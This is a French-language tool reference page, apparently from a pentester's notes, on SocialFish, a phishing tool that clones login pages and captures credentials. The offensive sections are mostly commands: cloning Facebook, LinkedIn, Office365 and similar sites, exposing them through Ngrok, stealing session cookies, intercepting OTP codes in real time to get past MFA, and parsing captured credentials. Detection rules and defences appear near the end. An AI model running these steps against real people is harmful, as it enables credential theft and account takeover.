


# SocialFish — Phishing automatisé avec clonage de sites en quelques commandes

> [!info] **En 1 phrase**
> SocialFish est un outil de phishing en Python (Flask) qui clone un site web, génère une fausse page de connexion et capture les identifiants, avec un serveur intégré, un tunneling Ngrok et une interface web.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | SocialFish |
| Description | Outil de phishing : clone un site, injecte une fausse page de login, capture identifiants/cookies/OTP, expose via tunneling (Ngrok/Cloudflared) avec panneau opérateur web |
| Catégorie | Social Engineering & Phishing |
| Sous-catégorie | Phishing, Credential Harvesting, Clone de sites |
| Fonction principale | Cloner un site et capturer identifiants / sessions / codes 2FA en temps réel |
| Type d'outil | CLI + interface web (panneau opérateur) |
| Licence | BSD 3-Clause |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python 3 (Flask ; Playwright pour l'automatisation navigateur en v3) |
| Développeur / organisation | UndeadSec (projet communautaire) |
| Projet officiel | UndeadSec/SocialFish |
| Dépôt officiel | https://github.com/UndeadSec/SocialFish |
| Documentation officielle | https://github.com/UndeadSec/SocialFish/wiki |
| Date de création | 29 janvier 2018 (premier commit GitHub) |
| État du projet | maintenu (v3.0 « Modern », mise à jour 2026) |
| Dernière version connue | 3.0.1 (release « Modern », mai 2026) |
| Systèmes compatibles | Linux, macOS, Windows (Python 3) |

> [!note] Pour vérifier / compléter
> La version v3.0/3.0.1 est publiée sur la branche `master` avec des fonctionnalités nouvelles (Playwright, capture de cookies, interception OTP, webhooks). La syntaxe CLI historique (v2.x) reste documentée ci-dessous : confirmer la commande exacte de votre build avec `python3 SocialFish.py -h`.

---

## Concept

SocialFish est un outil de phishing open source écrit en **Python** et basé sur **Flask**, popularisé par **UndeadSec**. Il clone un site web cible, injecte une fausse page de connexion et sert le tout sur un port local avec un **serveur HTTP intégré**. Une **interface web** (panneau opérateur) permet de lancer les attaques et de consulter les identifiants capturés en temps réel. Il supporte le **tunneling Ngrok/Cloudflared** pour exposer le phishing derrière une URL publique HTTPS, même derrière un NAT.

Dans un pentest, il se place en début de phase de **social engineering** : démonstration rapide de phishing en lab, campagne d'éveil à la sensibilisation, ou complément de **BeEF** (le navigateur de la victime peut être ensuite « hooké »). La v3 ajoute la capture de **cookies de session** (session hijacking), l'interception de **codes 2FA/OTP** en temps réel et le clonage de pages JavaScript lourdes via **Playwright** (Office365, SPA). Trop limité pour des campagnes massives (pas de gestion multi-cibles mature, tracking minimal), il reste le choix idéal pour prouver le risque « un clic = compromission » en quelques minutes.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Clone de page web | Téléchargement du HTML/CSS/JS d'un site réel, réécriture des liens et des formulaires pour pointer vers l'attaquant |
| Credential harvester | Formulaire de login falsifié qui intercepte le POST et journalise user/password au lieu de les transmettre au vrai site |
| Serveur Flask | Micro-framework Python ; SocialFish sert la page clonée et expose le panneau opérateur sur le même port |
| Tunneling (Ngrok/Cloudflared) | Tunnel sortant qui expose un port local sous une URL HTTPS publique (domaine `*.ngrok.io` ou `*.trycloudflare.com`) — fonctionne derrière un NAT sans port forwarding |
| Session / cookie | Identifiant de session stocké dans un cookie ; le voler permet le session hijacking (T1539) |
| OTP / 2FA | Code temporaire (SMS, TOTP, push) ; les clones v3 l'interceptent en temps réel pour contourner le 2e facteur |
| Réécriture de liens | Toute URL du site cloné est remplacée par l'URL de l'attaquant pour rester dans le faux site |
| Fidélité du clone | Les sites à JavaScript lourd cassent souvent le rendu ; la v3 utilise Playwright pour les pages modernes |

---

## Installation

### Debian / Ubuntu / Kali Linux / macOS / Windows

```bash
git clone https://github.com/UndeadSec/SocialFish.git
cd SocialFish
python3 -m pip install -r requirements.txt

# Dépendance optionnelle Ngrok (téléchargé au premier usage avec l'option -u)
# Vérification de l'environnement
python3 --version && python3 -c "import flask; print(flask.__version__)"
```

### Docker

```bash
# Dockerfile fourni dans le dépôt
docker build -t socialfish .
docker run -it --rm -p 4444:4444 socialfish
```

### Installation via pip

```bash
# Un paquet PyPI existe historiquement ; privilégier le clone Git (version à jour)
pip install socialfish
```

> [!warning] Prérequis & problèmes potentiels
> - La v3 repose sur **Playwright** : si le `requirements.txt` l'inclut, installer aussi le navigateur Chromium (`python3 -m playwright install chromium`). À vérifier selon votre build.
> - Sur Kali récent, `pip install` hors virtualenv est bloqué : utiliser `python3 -m venv` ou `pipx`.
> - Le port 4444 doit être libre ; les droits **root** ne sont pas indispensables mais pratiques pour les ports < 1024.

---

## Configuration

La configuration passe par des **arguments de ligne de commande** (user/pass du panneau, port, domaine cloné) et, en v3, par le **panneau web** (modes de clone, templates, webhooks).

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `<user>` / `<pass>` | Identifiants du panneau web opérateur | Chaînes (fictives en lab) | Accès aux logs de capture | `jdoe` / `Tartempion2024!` |
| `<domain>` | URL du site à cloner | URL complète | Page servie | `https://login.example.com` |
| `-p <port>` | Port du serveur HTTP | Entier (défaut `4444`) | Port d'écoute local | `-p 8080` |
| `-s` | Génère une landing page de capture de session | flag | Capture des cookies de session | `-s` |
| `-u` | Active le tunnel Ngrok (URL HTTPS publique) | flag | Exposition Internet (NAT) | `-u` |
| Modes de clone (v3) | Login-only / cookies-only / capture complète | 6 modes | Comportement de la page clonée | panneau web |
| Webhooks (v3) | Notifications en temps réel | Slack / Discord / API custom | Alertes de capture | URL du webhook |

> [!note] À vérifier
> Les modes de clone, le système de templates et les webhooks sont des nouveautés v3 documentées dans `FEATURES_v3.md` ; vérifier l'accès exact dans votre interface.

---

## Architecture interne

SocialFish est une application **Flask** qui combine un serveur HTTP de phishing et un panneau d'administration :

- **`SocialFish.py`** : point d'entrée — parse les arguments (`<user> <pass> <domain>`, `-p`, `-s`, `-u`), démarre Flask.
- **Moteur de clonage** : télécharge la page cible (requests), réécrit les liens/forms (BeautifulSoup/regex), stocke le clone dans un répertoire de travail.
- **Serveur HTTP** : Flask sert la page clonée et l'interface d'administration (`http://localhost:<port>`), capturant les POST des formulaires.
- **Capture** : les identifiants sont journalisés et affichés en temps réel dans le terminal ; en v3, cookies et OTP sont aussi capturés et exportés (JSON/CSV).
- **Tunneling** : `-u` invoque Ngrok (ou Cloudflared en v3) pour exposer le port local derrière une URL publique HTTPS.
- **Panneau opérateur (v3)** : sessions, templates, notification webhooks, suivi des victimes (IP, géolocalisation, type d'appareil).



---

## Commandes

### Commandes principales

```bash
# Syntaxe (historique v2.x) : python3 SocialFish.py <user> <pass> <domain> [options]
python3 SocialFish.py jdoe Tartempion2024! https://login.example.com

# Avec un port personnalisé
python3 SocialFish.py jdoe Tartempion2024! https://linkedin.com -p 8080

# Avec tunneling Ngrok pour une URL publique HTTPS
python3 SocialFish.py jdoe Tartempion2024! https://facebook.com -u

# Avec page de capture de session (vol de cookies)
python3 SocialFish.py jdoe Tartempion2024! https://twitter.com -s
```

| Option | Effet |
|---|---|
| `<user>` | Nom d'utilisateur de l'interface web |
| `<pass>` | Mot de passe de l'interface web |
| `<domain>` | Domaine à cloner (ex : `https://google.com`) |
| `-p <port>` | Port du serveur HTTP (défaut `4444`) |
| `-s` | Génère une landing page de capture de session |
| `-u` | Utilise un tunnel Ngrok (URL HTTPS publique) |
| `-h` | Affiche l'aide et la syntaxe |

### Templates & cibles typiques

| Cible typique | Type de clone | Difficulté | Particularité |
|---|---|---|---|
| Google | Formulaire email/OAuth | Moyen | Redirection vers le vrai site après capture |
| LinkedIn | Login professionnel | Moyen | Prétexte recrutement très efficace |
| Instagram | Login mobile | Moyen | Réécriture des assets JS |
| Facebook | Login classique | Facile | Page statique bien clonée |
| Office365 / Outlook | Login + MFA OTP | Difficile | Nécessite la v3 (détection multi-étapes) |
| GitHub | Login développeur | Moyen | Bon vecteur red team interne |
| Portail interne (HTTP) | Login simple | Facile | Parfait pour un lab en réseau local |

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `<domain>` | Site à cloner (positionnel) | `python3 SocialFish.py jdoe pass https://google.com` | Basic |
| `<user>` / `<pass>` | Identifiants du panneau web | `python3 SocialFish.py jdoe Tartempion2024! ...` | Basic |
| `-h` | Affiche l'aide | `python3 SocialFish.py -h` | Basic |
| `-p <port>` | Port du serveur HTTP | `python3 SocialFish.py jdoe pass https://x.com -p 8080` | Intermediate |
| `-s` | Capture de session (cookies) | `python3 SocialFish.py jdoe pass https://x.com -s` | Advanced |
| `-u` | Tunnel Ngrok (URL HTTPS publique) | `python3 SocialFish.py jdoe pass https://x.com -u` | Advanced |
| Modes de clone (v3) | login-only / cookies-only / complet | panneau web | Expert |
| Webhooks (v3) | Notifications Slack/Discord/API | panneau web → URL webhook | Expert |

> [!tip] Options les plus utiles au quotidien
> `-u` pour exposer le phishing derrière une URL HTTPS publique (indispensable hors réseau local), `-p` pour changer le port si le 4444 est pris, `-s` pour démontrer le vol de session.

---

## Exemples pratiques

### Beginner

```bash
# Cloner un site et servir la fausse page de login
python3 SocialFish.py jdoe Tartempion2024! https://login.example.com
# Vérifier que la page clonée est servie
curl -I http://localhost:4444
# Attendu : HTTP 200 + HTML proche de la page d'origine
```

### Intermediate

```bash
# Changer de port si le 4444 est bloqué par un firewall
python3 SocialFish.py jdoe Tartempion2024! https://linkedin.com -p 8080
curl -I http://localhost:8080
```

### Advanced

```bash
# Exposer derrière un NAT via Ngrok (URL HTTPS publique)
python3 SocialFish.py jdoe Tartempion2024! https://facebook.com -u
# L'outil affiche l'URL publique de type xxxx.ngrok.io à partager
```

### Expert

```bash
# Capture de session : vol de cookie + rejeu (session hijacking)
python3 SocialFish.py jdoe Tartempion2024! https://twitter.com -s
# En v3 : activer le mode "cookies-only" et configurer un webhook Discord
# pour recevoir chaque capture en temps réel (panneau web)
```

---

## Workflow complet (scénario pas à pas)

1. **Cloner et installer les dépendances.**
   ```bash
   git clone https://github.com/UndeadSec/SocialFish.git
   cd SocialFish
   python3 -m pip install -r requirements.txt
   ```
2. **Lancer l'outil avec un site cible.**
   ```bash
   python3 SocialFish.py jdoe Tartempion2024! https://instagram.com
   ```
3. **Vérifier que la page clonée est servie** avant de diffuser le lien.
   ```bash
   curl -I http://localhost:4444
   # Attendu : HTTP 200 et un HTML proche de la page d'origine
   ```
4. **Ouvrir l'interface web** — `http://localhost:4444`, se connecter avec le compte défini (`jdoe` / `Tartempion2024!`).
5. **Récupérer l'URL de phishing** — l'outil affiche l'adresse à partager avec la victime (`http://10.10.20.15:4444` ou l'URL Ngrok si `-u`).
6. **Analyser les identifiants** — dès qu'une victime saisit ses identifiants, les creds apparaissent dans l'interface **et** dans le terminal.
7. **Nettoyer** — arrêter le serveur (`Ctrl+C`), révoquer le tunnel, supprimer les logs et cookies capturés.

---

## Scénarios avancés

### Scénario 1 : exposer le phishing derrière un NAT via Ngrok

```bash
python3 SocialFish.py jdoe Tartempion2024! https://linkedin.com -u
# L'outil génère une URL publique HTTPS de type xxxx.ngrok.io
# Résistant au NAT : partageable par SMS, email ou QR code depuis n'importe où.
```

### Scénario 2 : capture de session avec la page d'attente

```bash
# Option "-s" : génère une landing page qui capture le cookie de session
python3 SocialFish.py jdoe Tartempion2024! https://facebook.com -s
# Les cookies capturés sont rejouables depuis le navigateur (session hijacking, T1539)
```

### Scénario 3 : chaîne complète avec BeEF (démo lab)

```bash
# 1. Cloner la page d'un service populaire
python3 SocialFish.py jdoe Tartempion2024! https://github.com -u
# 2. Une fois la victime sur la page clonée, injecter le hook BeEF
#    (edit de la page clonée ou via un payload XSS)
# 3. Depuis le panneau BeEF, lancer les modules de post-exploitation navigateur
```
→ Voir [[Outil - BeEF]] et [[Techniques/XSS (Cross-Site Scripting)|XSS]] pour la suite de l'attaque navigateur.

### Scénario 4 : interception 2FA/OTP en temps réel (v3)

```bash
# 1. Cloner un portail avec MFA (ex : Office365) via le mode multi-étapes
python3 SocialFish.py jdoe Tartempion2024! https://login.microsoftonline.com -u
# 2. La victime saisit login + mot de passe PUIS son code OTP
# 3. Le panneau opérateur reçoit les deux facteurs en temps réel
# 4. L'attaquant se connecte sur le vrai portail avant expiration du code
```
> Contournement de MFA décrit par la technique T1566.002 combinée à un MITM 2FA — aussi implémentée par [[Outil - Evilginx2]] et [[Outil - Modlishka]].

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Identifier un site de login pertinent à cloner (email, réseau social, portail interne) |
| Vulnérabilité (humaine) | Mesurer le taux de clic et de saisie d'identifiants lors d'un exercice |
| Exploitation | Credential harvesting (T1566.002), vol de session (T1539), interception OTP |
| Post-exploitation | Session hijacking, réutilisation des creds, hook BeEF du navigateur |
| Sensibilisation | Campagnes de phishing simulées avec restitution des données capturées (lab) |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Phishing: Spearphishing Link | T1566.002 | URL de phishing partagée à la victime | Détection d'URL, proxy web, blocage ngrok.io | Filtrage URL, MFA, awareness |
| Initial Access | Phishing: Spearphishing via Service | T1566.003 | Diffusion via messagerie/réseau social usurpé | Corrélation messages entrants | MFA, politiques de messagerie |
| Execution | User Execution: Malicious Link | T1204.001 | Victime clique sur le lien de phishing | Proxy web, EDR navigateur | Filtrage web, awareness |
| Initial Access | Drive-by Compromise | T1189 | Page clonée compromise le navigateur de la victime | Monitoring HTTP/HTTPS anormal | Mise à jour navigateur, proxy |
| Credential Access | Steal Web Session Cookie | T1539 | Option `-s` : vol du cookie de session | EDR, inspection des cookies, logs navigateur | HttpOnly, SameSite, rotation de session |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> SocialFish couvre l'Initial Access par lien de phishing (T1566.002) et le vol de session (T1539) quand l'option `-s` est active.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| URL `*.ngrok.io` / `*.trycloudflare.com` reçue par email/SMS | Domaine de tunneling public : blocable en amont |
| Page de login clonée avec erreurs de mise en page ou URL différente | Comparer avec le vrai site, vérifier le certificat TLS |
| Demande d'identifiants sur une page HTTP (pas de HTTPS) | Le clone sert parfois en HTTP : le navigateur affiche « non sécurisé » |
| Réponse lente ou site non responsive (le clone) | Les clones lourds traînent : signe d'infrastructure de phishing |
| Connexions sortantes vers des tunnels | Inspecter le trafic web/DNS, blocage des domaines de tunneling |
| Certificat TLS auto-signé ou erreur de certificat | HSTS + préchargement, sensibilisation aux erreurs de certificat |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma — connexion à un domaine de tunneling public
title: Connection to Public Tunneling Service
id: 22222222-3333-4444-5555-666666666666
status: experimental
logsource:
    category: dns_query
    product: windows
detection:
    selection:
        QueryName|endswith:
            - '.ngrok.io'
            - '.trycloudflare.com'
            - '.serveo.net'
    condition: selection
falsepositives:
    - Legitimate use of tunneling services
level: medium
```

```bash
# Exemple Suricata — requête DNS vers ngrok.io
alert dns any any -> any any (msg:"DNS query for ngrok tunneling domain"; dns.query; content:"ngrok.io"; nocase; classtype:bad-unknown; sid:9500201; rev:1;)
```

---

## Automatisation

```bash
# Bash — vérifier le clone et l'écoute après lancement
python3 SocialFish.py jdoe Tartempion2024! https://login.example.com &
sleep 3
curl -s -o /dev/null -w "%{http_code}\n" http://localhost:4444
```

```python
# Python — parser les credentials capturés dans les logs (adapté au format réel)
import re
with open('SocialFish.log', encoding='utf-8', errors='ignore') as f:
    data = f.read()
for user, pw in re.findall(r'Username:\s*(\S+)[^\n]*Password:\s*(\S+)', data):
    print(f"{user}:{pw}")
```

```bash
# Notifications temps réel (v3) : webhook Discord configuré dans le panneau
# curl -X POST -H "Content-Type: application/json" \
#   -d '{"content":"Nouveau credential capturé"}' <URL_DU_WEBHOOK>
```

---

## Output et parsing

Les sorties principales : **terminal** (logs en temps réel), **panneau web** (interface opérateur), **fichiers de log** et **export JSON/CSV des sessions** (v3).

```bash
# Suivre les captures en temps réel
tail -f SocialFish.log
# Lister les exports de sessions
ls -la sessions/ 2>/dev/null
```

```python
# Python — parsing d'un export JSON de sessions (v3)
import json
with open('sessions_export.json') as f:
    sessions = json.load(f)
for s in sessions:
    print(s.get('victim'), s.get('creds'), s.get('cookie'))
```

> [!note] À vérifier
> Les noms de fichiers de log et le format des exports dépendent de la version (v2 vs v3). Vérifier avec `ls -la` dans le répertoire d'exécution après une capture.

---

## Intégrations

```text
Email/SMS (lien Ngrok) → SocialFish (page clonée) → Capture creds/cookie/OTP → Rejeu (session hijack) → SIEM
```

- [[Tools| Outils]] global
- [[Outil - BeEF]] — hook du navigateur de la victime après le clic sur la page clonée
- [[Outil - Evilginx2]] · [[Outil - Modlishka]] — reverse proxies 2FA (au-delà de SocialFish)
- [[Outil - SET]] — framework complet pour aller plus loin (payloads, mass mailer)
- [[Outil - Weeman]] — harvester HTTP ultra-léger, version pédagogique
- [[Outil - CredSniper]] — phishing 2FA via reverse proxy
- [[Outil - GoPhish]] — campagnes structurées avec tracking
- [[Outil - Nmap]] — repérer le serveur de phishing exposé / vérifier les ports
- [[07 - Wireless, MITM & Social Engineering| Wireless, MITM & Social Engineering]]

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Evilginx2]] | Reverse proxy, bypass 2FA complet | Complexe à configurer | Red team, phishing 2FA |
| [[Outil - Modlishka]] | MITM massif, réécriture HTTPS | Maintenance réduite | Campagnes larges |
| [[Outil - SET]] | Framework complet (payloads, email) | Menu interactif, payloads signés | Démo / exploitation |
| [[Outil - Weeman]] | Ultra-léger, HTTP simple | HTTP only, Python 2, abandonné | Pédagogie |
| [[Outil - CredSniper]] | 2FA phishing + Ngrok prêt | Moins maintenu | Démo rapide |
| [[Outil - GoPhish]] | Campagnes mesurables, multi-envoi | Pas de clonage dynamique poussé | Sensibilisation |

> **Quand utiliser Evilginx2 plutôt que SocialFish ?** Dès que la cible a activé la **2FA** et que le client demande un scénario réaliste : Evilginx2 joue un MITM transparent sur le domaine réel et intercepte les deux facteurs, là où SocialFish capture surtout login + mot de passe (ou OTP ponctuel en v3).

---

## Performance

- **Lancement** : quasi instantané (Flask) ; le clonage d'une page statique prend 1-3 secondes.
- **Pages JavaScript lourdes** : en v3, Playwright ralentit le clonage (chargement navigateur complet) mais améliore la fidélité — prévoir plusieurs secondes à une minute selon la cible.
- **Serveur HTTP** : Flask est monothread par défaut ; suffisant pour une démonstration, pas pour un gros volume de victimes.
- **Tunnel Ngrok** : ajoute une latence réseau et la limite gratuite de Ngrok (~40 connexions/min) peut couper la session ; Cloudflared est plus permissif.
- **Export sessions** : volumétrie faible ; exporter en JSON/CSV pour les rapports.

> [!note] À vérifier
> Limites de débit de Ngrok/Cloudflared évolutives ; chiffres indicatifs basés sur les usages lab.

---

## Troubleshooting

### Common problems

#### Problème : « Port 4444 already in use » au lancement

- **Cause** : un autre processus (ou une instance SocialFish) occupe le port.
- **Solution** : changer de port avec `-p 8080` ou tuer le processus (`sudo lsof -i :4444`).
- **Vérification** : `curl -I http://localhost:4444` doit échouer avant le nouveau lancement.

#### Problème : `-u` (Ngrok) ne fonctionne pas

- **Cause** : binaire Ngrok non trouvé, pas de compte/authtoken, ou connexion bloquée.
- **Solution** : installer Ngrok (`snap install ngrok` ou binaire officiel), configurer l'authtoken, ou utiliser Cloudflared (`cloudflared tunnel --url http://localhost:4444`).
- **Vérification** : `which ngrok` puis relancer avec `-u`.

#### Problème : la page clonée est cassée (assets manquants)

- **Cause** : le site cible charge du JavaScript/CSS via des chemins absolus non réécrits.
- **Solution** : choisir une page statique (Facebook, portail HTTP) ; en v3, utiliser Playwright/mode multi-étapes pour les SPA.
- **Vérification** : ouvrir la page clonée dans un navigateur et inspecter la console (F12 → Network).

#### Problème : « ModuleNotFoundError: flask / requests »

- **Cause** : dépendances non installées ou installées dans un autre interpréteur.
- **Solution** : `python3 -m pip install -r requirements.txt` dans un venv dédié.
- **Vérification** : `python3 -c "import flask, requests; print('ok')"`.

---

## Sécurité de l'outil

- **Panneau opérateur exposé** : l'interface web est servie sur le même port que le phishing — si vous êtes derrière un NAT avec Ngrok, le panneau peut être accessible en ligne. Changer les identifiants par défaut et protéger par firewall.
- **Identifiants par défaut faibles** : ne jamais réutiliser `admin/admin` ; utiliser des valeurs fictives fortes en lab (`jdoe` / `Tartempion2024!`).
- **Stockage en clair** : credentials, cookies et OTP sont journalisés en clair — nettoyer les logs et exports après l'engagement.
- **Tunnels publics** : une URL Ngrok expose votre machine à Internet ; arrêter le tunnel dès la fin de la démo.
- **Responsabilité légale** : outil d'attaque, utilisable uniquement avec autorisation écrite et dans un environnement contrôlé.

---

## Limitations

- **Pas de campagne massive** : pas de gestion multi-cibles mature, tracking minimal par rapport à [[Outil - GoPhish]].
- **Fidélité du clone** : les sites riches (SPA, JS lourd) cassent souvent ; la v3 (Playwright) améliore le rendu mais pas pour tous les sites.
- **2FA** : la capture d'OTP (v3) reste limitée aux scénarios à étapes simples ; [[Outil - Evilginx2]]/[[Outil - Modlishka]] font mieux.
- **Maintenance par intermittence** : le projet évolue par vagues (v2 → v3) ; vérifier la compatibilité Python/Flask/Playwright.
- **HTTP non chiffré** : sans `-u`, le phishing est servi en HTTP → alerte navigateur et trafic visible.

---

## Cheatsheet

```bash
# Installation
git clone https://github.com/UndeadSec/SocialFish.git
cd SocialFish
python3 -m pip install -r requirements.txt

# Lancer un phishing basique (port 4444)
python3 SocialFish.py jdoe Tartempion2024! https://login.example.com

# Changer de port
python3 SocialFish.py jdoe Tartempion2024! https://linkedin.com -p 8080

# Exposer derrière un NAT (URL HTTPS publique)
python3 SocialFish.py jdoe Tartempion2024! https://facebook.com -u

# Capture de session (cookies)
python3 SocialFish.py jdoe Tartempion2024! https://twitter.com -s

# Vérifier le serveur de phishing
curl -I http://localhost:4444

# Interception OTP (v3) : cloner un portail avec MFA via le panneau web
# Notifications : configurer un webhook Discord/Slack dans le panneau
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Cloner un site web et capturer identifiants, cookies et OTP avec un serveur intégré |
| **Quand l'utiliser ?** | Démonstration rapide de phishing, exercices de sensibilisation, complément BeEF |
| **Commande principale** | `python3 SocialFish.py <user> <pass> <domain> [-p|-s|-u]` |
| **Alternative principale** | [[Outil - Evilginx2]] (2FA bypass) · [[Outil - SET]] (framework complet) · [[Outil - Weeman]] (léger) |
| **Concepts importants** | Clone de page, credential harvesting, tunnel Ngrok, session hijacking, interception OTP |
| **Liens associés** | [[Outil - CredSniper]] · [[Outil - BeEF]] · [[Outil - Evilginx2]] · [[Outil - SET]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| URL ngrok.io / trycloudflare.com reçue par email/SMS | **Filtrage web** : bloquer les domaines de tunneling connus |
| Page de login clonée (URL différente, layout cassé) | Comparaison de l'URL, HSTS, sensibilisation au phishing |
| Identifiants saisis sur une page HTTP | **MFA obligatoire** : limite l'impact du vol de mot de passe |
| Connexions sortantes vers des tunnels | **Proxy / inspection DNS** : détecter et bloquer les tunnels sortants |
| Erreur de certificat TLS au clic | HSTS + préchargement, formation aux erreurs de certificat |
| Vol de session (cookie) détecté | **HttpOnly**, SameSite, rotation des sessions, MFA step-up |

---

## Tips & Pièges

> [!tip] **Tips**
> - Utilisez `-u` (Ngrok) pour une URL **HTTPS publique** : indispensable pour éviter l'alerte navigateur en dehors du réseau local.
> - Testez d'abord localement avec `curl -I http://localhost:4444` pour vérifier que la page clonée est servie correctement.
> - Changez le port avec `-p` si le 4444 est bloqué par un firewall.
> - Restreignez le serveur au réseau de test : ne laissez jamais le panneau admin accessible sur Internet (firewall + identifiants forts).
> - En v3, activez un webhook Discord/Slack pour être notifié immédiatement de chaque capture.

> [!warning] **Pièges**
> - SocialFish ne fait **pas de réécriture complète** : certains assets du site cloné peuvent casser et trahir l'attaque.
> - Le projet est maintenu par intermittence : vérifiez la compatibilité avec votre version de Python/Flask (et Playwright en v3).
> - Ne réutilisez pas des identifiants faibles sur l'interface web (`admin/pass`) : elle peut être exposée.
> - Les identifiants capturés sont stockés **en clair** dans les fichiers de log — nettoyez-les après la démo.
> - Sans `-u`, l'URL HTTP dénonce l'attaque ; prévoyez toujours un tunnel HTTPS pour un scénario réaliste.

---

## References

### Official

- GitHub officiel : https://github.com/UndeadSec/SocialFish
- Wiki officiel : https://github.com/UndeadSec/SocialFish/wiki
- Releases : https://github.com/UndeadSec/SocialFish/releases
- Feature guide v3 : https://github.com/UndeadSec/SocialFish/blob/master/FEATURES_v3.md

### Security references

- MITRE ATT&CK T1566 — Phishing : https://attack.mitre.org/techniques/T1566/
- MITRE ATT&CK T1539 — Steal Web Session Cookie : https://attack.mitre.org/techniques/T1539/
- MITRE ATT&CK T1189 — Drive-by Compromise : https://attack.mitre.org/techniques/T1189/

### Community

- Article UndeadSec / write-ups SocialFish : https://github.com/UndeadSec/SocialFish/wiki
- Ngrok documentation : https://ngrok.com/docs
- Cloudflare Tunnel documentation : https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/

---

**Liens :** [[Tools| Outils]] · [[Outil - CredSniper|CredSniper]] · [[Outil - BeEF|BeEF]] · [[Outil - Evilginx2|Evilginx2]] · [[Outil - Modlishka|Modlishka]] · [[Outil - SET|SET]] · [[Outil - Weeman|Weeman]] · [[Outil - GoPhish|GoPhish]]
